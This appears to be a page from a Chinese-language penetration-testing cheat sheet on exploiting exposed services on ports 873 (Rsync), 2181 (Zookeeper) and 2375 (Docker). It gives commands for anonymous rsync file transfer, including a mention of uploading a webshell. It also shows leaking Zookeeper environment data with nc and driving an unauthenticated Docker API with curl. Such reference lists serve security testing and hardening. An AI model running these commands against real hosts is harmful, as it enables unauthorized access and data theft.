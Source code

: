 - **873 端口（ Rsync ）**

```
安全漏洞：匿名访问、弱口令
利用方式：攻击者可以执行下载/上传等操作，也可以尝试上传webshell。
1、下载：#rsync -avz a.b.c.d::path/file path/filiname  
2、上传：#rsync -avz path/filename a.b.c.d::path/file
```

- **2181 端口（ Zookeeper ）**

```
安全漏洞：未授权访问
检测方式：攻击者可通过执行envi命令获得系统大量的敏感信息，包括系统名称、Java环境。
 echo envi | nc ip port
```

- **2375 端口（ Docker ）**

```
安全漏洞：未授权方式
检测方式：通过docker daemon api 执行docker命令。
#列出容器信息，效果与docker ps -a 一致。
 curl http://<target>:2375/containers/json
 docker -H tcp://<target>:2375 start <Container Id>
```